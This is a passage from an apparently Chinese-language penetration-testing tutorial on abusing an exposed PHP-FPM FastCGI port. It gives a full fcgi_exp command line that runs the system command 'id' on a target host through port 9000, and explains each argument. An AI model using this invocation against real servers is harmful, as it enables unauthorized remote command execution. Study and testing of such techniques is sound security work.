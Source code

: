 然后直接运行可以看到 fcgi\_exp 的使用方法：

[![](assets/1698897074-bde7f1ea9c8ce4cf116220829404d90e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134735-8d6cfa6c-b2e5-1.png)

使用如下命令进行测试

```plain
./fcgi_exp system 192.168.43.82 9000 /var/www/html/index.php "id"
```

-   system：要使用的 PHP 函数
-   192.168.43.82：目标机 IP
-   9000：目标机 fpm 端口
-   /var/www/html/index.php：已知的位于目标机上的PHP文件
-   id：要执行的系统命令

如下图所示，成功执行系统命令，利用成功：
